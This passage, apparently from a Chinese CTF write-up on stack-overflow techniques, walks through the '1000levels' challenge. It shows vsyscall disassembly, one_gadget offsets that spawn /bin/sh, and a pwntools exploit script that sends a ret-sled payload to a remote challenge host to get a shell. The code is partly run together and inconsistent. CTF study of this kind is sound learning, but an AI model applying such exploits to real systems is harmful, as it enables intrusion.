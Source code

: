 seg000:0000000000000000 mov rax, 60hseg000:0000000000000007 syscall ; Low latency system callseg000:0000000000000009 retnseg000:0000000000000009 ; ---------------------------------------------------------------------------seg000:000000000000000A align 400hseg000:0000000000000400 mov rax, 0C9hseg000:0000000000000407 syscall ; Low latency system callseg000:0000000000000409 retnseg000:0000000000000409 ; ---------------------------------------------------------------------------seg000:000000000000040A align 400hseg000:0000000000000800 mov rax, 135hseg000:0000000000000807 syscall ; Low latency system callseg000:0000000000000809 retn 
 
 ```java 
  显示的这三个系统调用分别是：gettimeofday, time和getcpu。值得注意的是，在我们选择gadget的是，直接调用vsyscall中的retn指令，会提示段错误，这是因为vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错
所以不能直接调用ret，应该从头开始。
第三步找到onegadget



  ``` 
  
pwn@pwn-PC:~/Desktop$ one_gadget /usr/lib/x86_64-linux-gnu/libc-2.24.so0x3f306 execve("/bin/sh", rsp+0x30, environ)constraints: rax == NULL 
0x3f35a execve("/bin/sh", rsp+0x30, environ)constraints: [rsp+0x30] == NULL 
0xd695f execve("/bin/sh", rsp+0x60, environ)constraints: [rsp+0x60] == NULL 
 
 ```java 
  准备内容做完后就开始构造payload，但是本地测试一直失败 ，调试时发现每次执行vsyscall的系统调用的的时候，会报出Program recevied signal SIGSEGV(fault address 0xa)的错误提示，可是没有查到原因（求大佬指点），后来在攻防世界中找到一个一样的题目'100levels'，只不过最高的循环从1000变为了100，思路没有变，改了下exp就利用成功了，于是更纳闷为什么本地会报这种错误。



  ``` 
  
from pwn import *libc = ELF("./libc.so") 
 
### p = process('./1000levels') 
p = remote('111.200.241.244',45392) 
 
### one_gadget = 0x3f306 
one_gadget = 0x4526asystem = libc.symbols['system'] 
print r.recvuntil("Choice:\n")p.sendline('2')print r.recvuntil("Choice:\n")p.sendline('1')print r.recvuntil("How many levels?\n")p.sendline('0')print r.recvuntil("Any more?\n")p.sendline(str(one_gadget-system)) 
def calc(): print r.recvuntil("Question: ") num1 = int(r.recvuntil(" ")) print r.recvuntil("* ") num2 = int(r.recvuntil(" ")) ans = num1 * num2 print r.recvuntil("Answer:") p.sendline(str(ans)) 
 
### for i in range(999): 
for i in range(99): calc()print p.recvuntil("Answer:")payload = 'a' * 0x38 + p64(0xffffffffff600000) * 3p.send(payload)p.interactive() 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
 
 ```java 
  # 题目四
2019年CISCN中your_pwn的题目，源码如下：



  ``` 
  